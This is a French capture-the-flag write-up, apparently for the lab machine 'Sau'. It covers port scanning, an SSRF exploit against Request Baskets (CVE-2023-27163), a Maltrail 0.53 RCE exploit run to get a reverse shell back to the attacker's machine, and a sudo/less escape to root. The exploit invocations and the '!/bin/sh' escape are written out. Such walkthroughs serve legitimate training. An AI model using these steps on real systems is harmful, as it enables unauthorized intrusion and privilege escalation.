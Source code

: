 #linux #easy 
# Recon

## nmap
```
 PORT     STATE SERVICE VERSION
└─$ nmap -Pn -T4 -sV -p- 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 16:09 GMT
Warning: 10.10.11.224 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.224 (10.10.11.224)
Host is up (0.21s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
887/tcp   filtered iclcnet_svinfo
8338/tcp  filtered unknown
15496/tcp filtered unknown
50502/tcp filtered unknown
55555/tcp open     unknown
59269/tcp filtered unknown
```

8 Ports sont découverts dont 2 qui sont ouverts. Le Port 22 sur ssh et le port 55555 dont le service est inconnu.
En se connectant sur ce port dans le navigateur on constate qu'une application Web est héberger sur serveur.

Tout juste au pieds de la page on constate que l'application en question est Request-Basquet

Après quelques recherches sur google.
[Request Baskets](https://rbaskets.in/) est un service Web conçu pour creer des points de terminaisons permettant de capturer des requêtes HTTP et faciliter leur inspection via une  interface utilisateur Web simple.

Il existe également un exploit qui exploite une vulnérabilité SSRF dans la version 1.2.1.

Une vulnérabilité SSRF, qui signifie Server-Side Request Forgery, est une faille de sécurité dans laquelle un attaquant peut induire un serveur à effectuer des requêtes vers des ressources internes non autorisées ou à accéder à des informations sensibles à l'intérieur du réseau.
Le mécanisme de base d'une SSRF consiste à persuader le serveur de faire des requêtes HTTP vers des ressources situées à l'intérieur du réseau interne de la cible.

Le nom de la vulnérabilité  liée à cette version est CVE-2023-27163
# exploit
## exploit request-basket app

L'exploitation est assez simple à exécuter, il suffit d'exécuter le script en mettant en argument l'adresse IP et le numéro de port de la cible ainsi que l'adresse et le numero de port  où nous souhaitons rediriger notre requête en interne sur le serveur.
Puisque le protocole http est utilisé sur le port 80, nous allons éssayer d'y accéder.

En gros l'exploit crée un point de terminaison tout en obligeant le serveur à rediriger les requêtes http vers l'adresse local de la cible sur le port 80. 
```
./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
## exploit maltrail app
En se connectant sur ce point de terminaison on constate qu'une autre application Web est héberger en interne sur le port 80.
Une fois de plus on peut voir le nom de cette application au pieds de la page.

En faisant une petite recherche sur la version 0.53 de MalTrail. On découvre qu'il existe une vulnérabilité de type RCE qui nous permet d'obtenir un reverse shell sur la cible.

Pour obtenir le shell, je commence d'abord par me mettre en ecoute sur le port 1234,
ensuite j'exécute l'exploite en mettant en argument l'adresse IP de ma machine, le port sur lequel je veux obtenir le shell et l'adresse de la cible.
└─$ 
```
python3 Maltrail-v0.53-Exploit/exploit.py 10.10.16.35 1234 http://10.10.11.224:55555/<basket>
```

# foothold
Maintenant que j'ai un accès sur la cible, je suis connecter en tant que puma.
Pour élever mes privilèges j'exécute la commande `sudo -l` pour vérifier les commandes que j'ai le droit d'exécuter sans mot de passe.
```
$ sudo -l
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Je découvre que j'ai le droit d'afficher des information sur le service trail en tant que administrateur sans fournir de mot de passe.

En exécutant cette commande en tant que root je constate que les informations sont affichées grace à la commande `Less`.
Heureusement l'interface de la commande Less permet d'executé des commandes.
Il me suffit donc d'écrire `!/bin/sh` et là j'obtient un shell root. 

J'espère que vous avez aimer cette video, n'hesitez pas écrire ce que vous en pensé en commentaire, à mettre un pousse bleu et à vous abonner pour ne pas manquer les prochaines videos. Chao